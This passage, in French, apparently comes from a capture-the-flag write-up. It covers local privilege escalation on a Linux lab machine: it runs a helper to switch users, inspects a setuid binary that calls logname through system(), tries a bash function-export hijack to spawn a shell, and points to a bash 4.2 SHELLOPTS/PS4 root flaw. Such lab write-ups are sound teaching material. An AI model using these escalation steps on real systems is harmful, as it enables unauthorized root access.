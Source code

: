 ```plain
[user2@localhost tmp]$ ./go_user3
bash: /home/user2/.bashrc: Permission non accordée
bash-4.2$ id
uid=996(user3) gid=994(user3) groupes=994(user3),1001(user2) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

g0tr00t?
--------

La dernière étape, on le devine, concerne l'exécutable *whoisme*.  

```plain
bash-4.2$ /usr/local/bin/whoisme
user2
```

Le programme est simple comme le laisse deviner strings :  

```plain
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
setgid
__libc_start_main
__gmon_start__
GLIBC_2.2.5
UH-H
UH-H
[]A\A]A^A_
/usr/bin/logname
```

On est bien sûr tenté de tester shellshock ou la faille d'exportation de fonctions :  

```plain
[user2@localhost user2]$ /tmp/go_user3
bash-4.2$ /usr/bin/logname () { /bin/bash; }
bash-4.2$ export -f /usr/bin/logname
bash-4.2$ whoisme
sh: erreur lors de l'import de la définition de fonction pour « BASH_FUNC_/usr/bin/logname »
user2

sh: error importing function definition for `BASH_FUNC_/usr/bin/logname'
```

On sait (à l'invite) que bash est en version 4.2. [D'après CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-72/product_id-21050/version_id-172000/year-2017/opec-1/GNU-Bash-4.2.html), cette version a deux vulnérabilités.  

L'une concerne \h dans l'expansion du prompt (PS1) donc peu d'intérêt pour nous. En revanche [l'autre](http://www.openwall.com/lists/oss-security/2016/09/26/9) devrait être applicable :  

> Bash before 4.4 allows local users to execute arbitrary commands with root privileges via crafted SHELLOPTS and PS4 environment variables.
